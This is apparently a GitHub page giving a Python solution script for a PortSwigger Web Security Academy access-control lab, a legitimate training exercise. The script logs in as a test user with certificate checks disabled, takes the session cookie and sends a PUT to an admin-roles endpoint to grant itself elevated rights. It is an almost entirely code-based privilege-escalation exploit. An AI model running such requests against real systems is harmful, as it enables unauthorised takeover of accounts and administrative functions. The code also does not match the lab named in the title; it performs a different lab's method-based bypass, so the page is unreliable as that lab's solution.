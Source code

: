 # Lab: User ID controlled by request parameter

Link to lab: https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0aec003503dd6fe9c7c42b56009a00fc.web-security-academy.net/'

session = requests.Session()

response = session.get(
    url + 'login',
    verify=False,
)

data = {
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url + 'login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]


cookies = {
    'session': session
}

data = {
    "username":"wiener",
    "action":"upgrade"
}

response = requests.put(
    url + 'admin-roles',
    cookies=cookies,
    data=data,
    verify=False,
)

print(response.text)
```